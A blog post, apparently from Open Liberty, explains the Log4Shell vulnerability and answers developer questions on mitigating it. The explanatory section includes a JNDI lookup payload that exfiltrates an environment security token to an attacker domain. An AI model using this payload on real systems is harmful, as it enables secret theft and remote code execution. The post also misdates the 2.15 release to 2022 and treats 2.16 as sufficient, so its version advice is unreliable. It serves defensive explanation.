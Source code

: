 ---
layout: post
title: "Liberty Guide on Log4j2 CVE-2021-44228"
# Do NOT change the categories section
categories: blog
author_picture: https://avatars.githubusercontent.com/u/10999780?s=460&u=1a66e468c70e84f54bf5a75c27881cc6133ccc20&v=4
author_github: https://github.com/Emily-Jiang
seo-title: Liberty Guide on Log4j CVE-2021-44228
seo-description: Open Liberty Guide on understanding and solving Log4j2 CVE-2021-44228
blog_description: Open Liberty provides this essential guide for Open Liberty customers to understand Log4j CVE-2021-44228 (Log4Shell) and the suggestions how to mitigate this threat 
open-graph-image: https://openliberty.io/img/twitter_card.jpg
additional_authors:
- name: Alasdair Nottingham
  github: https://github.com/nottycode
  image: https://avatars3.githubusercontent.com/nottycode
---

On December 10th 2022 the Apache Logging project released a 2.15 release for Log4j2 a popular Java logging framework to address a CVSS 10 scored CVE-2021-44228 known as Log4Shell. 
CVSS 10 is the highest severity score that can be assigned.


The Log4Shell vulnerability occurs due to a combination of a message lookup feature in Log4J and how the Java Naming and Directory (JNDI) API works when connecting via LDAP.when connecting via LDAP. 
A common syntax for variable replacement in configuration is `${variable-name}`, the Log4J message lookup feature enables that capability for log messages. 
Log4J also has a special lookup function for resolving variables from an LDAP server. The syntax for this is `${jndi:ldap://<server name>/<object name>}`. 
When Log4J sees this string it will connect to the provided server to download the object to log the value. 
This will return a serialized object which the LDAP JNDI implementation will deserialize, if the JVM does not have a copy of the class for the serialized object it will use a copy available from the server. 

It is very common for applications using a logging framework to log untrusted input for debugging purposes in case of a failure. 
Meaning if an attacker can work out an input value that will be logged by the application it can insert this string into the payload and when it is logged the Java code will download code from the server controlled by the attacker and execute it. 
To add to the risk present by this lookup function the lookup function is recursive allowing for data exfiltration. Data exfiltration maybe possible even if the targeted LDAP server is not reachable. 
For example a string like `${jndi:ldap://${env.security_token}.<attacker domain>/a}` would resolve the security_token environment variable from the shell and then do a DNS lookup to resolve the IP address using the attackers controlled DNS server providing the hacker with the value of the security token.

Since the original `Log4Shell` Apache has issued two further CVEs affecting Log4J CVE-2021-4104 and CVE-2021-45046. 
As a result of this the recommendation is to upgrade all log4j usage to at least the 2.16 version.

Open Liberty does not ship log4j and as a result any data logged by Open Liberty will not put you at risk. 
However log4j is a widely used framework and your applications may make use of Log4J as a result we have prepared the following Q&A for developers seeking advice:


* Q1. If my applications use log4j, which version of log4j should I use to be safe?

You should update the version of `log4j2` to `2.16`. 

* Q2. If I am running with latest version of Java, am i protected? Do i still need to follow remediate steps? 

`CVE-2021-44228`is specific to Log4J V2 and has nothing to do with Java or its level. Features in the most recent releases of Java mitigate some, but not all of the risk. 


* Q3. It will take a long time to update all our applications is there anything we can do to mitigate in the meantime?

Provided `log4j` 2.10 or newer is being used setting the Java System property log4j2.formatMsgNoLookups to true will mitigate the issue. Setting an environment variable to `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` will also have the same effect. These steps will not mitigate `CVE-2021-45046`.


* Q4 How can I configure Liberty with log4j2.formatMsgNoLookups?

Create a jvm.options file in `${wlp.user.dir}/shared/jvm.options` with `-Dlog4j2.formatMsgNoLookups=true` on a line by itself. Then restart all servers for it to take effect. This will apply to all servers in that user dir.


* Q5. I cannot find `org/apache/logging/log4j/core/lookup/JndiLookup.class` in my log4j jar, am I vulnerable?

It is unlikely you are vulnerable. Most likely you are running log4j1 which is not vulnerable.


* Q6. Could setting `log4j2.formatMsgNoLookups=true` have an effect on log4j 1.x or other non-log4j applications? Is it safe to set this parameter until we have checked every custom written part in our WAS environments? 

The setting should have no affect on non-log4j or log4j 1.x libraries. It is a property related to log4j 2.x behavior.


* Q7. If I set `log4j2.formatMsgNoLookups` to `true` will it affect my application use of log4j2?

Yes, that will be visible to any and all copies of `log4j2` that are in the JVM.

If you are WebSphere Application Server customers, please refer to https://www.ibm.com/support/pages/security-bulletin-vulnerability-apache-log4j-affects-websphere-application-server-cve-2021-44228[this blog] to learn about more on how to respond to this CVE.
You might find the following blogs to be useful: 

* https://www.infoq.com/news/2021/12/log4j-zero-day-vulnerability/[Vulnerability Affecting Multiple Log4j Versions Permits RCE Exploit]
* https://blog.sebastian-daschner.com/entries/log4shell-and-how-to-fix%C2%A0[The Log4Shell vulnerability and how to fix it]
* http://slf4j.org/log4shell.html[Comments on the CVE-2021-44228 vulnerability from SLF4J]